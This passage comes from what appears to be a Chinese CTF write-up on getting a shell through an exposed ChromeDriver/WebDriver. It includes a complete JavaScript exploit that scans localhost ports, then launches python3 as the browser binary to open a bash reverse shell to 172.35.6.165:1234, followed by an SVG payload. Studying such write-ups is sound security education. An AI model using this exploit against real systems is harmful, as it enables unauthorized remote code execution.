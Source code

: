 第一个问题注意即可，第二个问题我们可以通过 `eval(btoa(代码))` 的方式进行规避。
之后的流程参考https://paper.seebug.org/1559/，扫描端口，并向webdriver发起请求，创建新的进程，反弹shell即可。文中涉及到跨域访问仅允许localhost客户端访问webdriver的问题在本题中也不存在，因为发起请求的正是localhost。
这道题整体而言对于这样的比赛来说没有难度，但是坑比较多，比如端口量较大，往往扫不到webdriver控制端口，再比如每次请求都启动了新的chromedriver进程，导致端口不一样，所以扫描把人扫得非常沮丧。

{% spoiler 我所使用的js部分exploit %}

```javascript
window.state = "";
(async function() {
    document.getElementById('result').innerHTML = "start";
    window.state = "start";
    let n = 42;
    let i = 0;
    for(i = 45000; i < 65535; i++){
        if (i===3000)continue;
        try {
            let x = await fetch(`http://localhost:${i}/sessions`, { mode: "no-cors" });
            document.getElementById('result').innerHTML = "middle";
            window.state = "middle";
            window.state = "end";
            n = i;
            document.getElementById('result').innerHTML = n;
            break;
        } catch (err) {
            if(window.state == "end") break;
            document.getElementById('result').innerHTML = err;
            window.state = "err";
        }
    }
    document.getElementById('result').innerHTML += "...";
    try {
        let x = await fetch(`http://localhost:${n}/session`, {
            method: 'POST',
            mode: "no-cors",
            body: JSON.stringify({"capabilities":{"alwaysMatch":{"goog:chromeOptions":{
                "binary":"/usr/bin/python3", "args": ["-c__import__(\"os\").system(\"exec bash -i &>/dev/tcp/172.35.6.165/1234 <&1\")"]
            }}}}),
        });
        document.getElementById('result').innerHTML += await x.text();
    } catch (err) {
        document.getElementById('result').innerHTML += "error: " + err;
    }
})();
```

<svg width="480px" height="120px" fill="#a3185b" xmlns="http://www.w3.org/2000/svg">
<rect fill="#5ce7a4" width="100%" height="100%"></rect>
<image x="10" y="10" width="100" height="100" href="http://q1.qlogo.cn/g?b=qq&amp;nk=745679136" style="height:0"></image>
<text x="10" y="20" id="result">46233...</text>
<image>&amp;s=640"&gt;</image>
<text x="120" y="25">晚上好,来自美国(T-Mobile)的朋友</text>
<text x="120" y="45">今天是 2021年5月29日 星期六</text>
<text x="120" y="65">您的IP是 172.35.6.165</text>
<text x="120" y="85">您使用的是 Mac OS 10.15.7 操作系统</text>
<text x="120" y="105">您使用的是 Chrome(91.0.4472.77) 浏览器</text>
<text x="10" y="85">仅供展示效果用</text>
</svg>
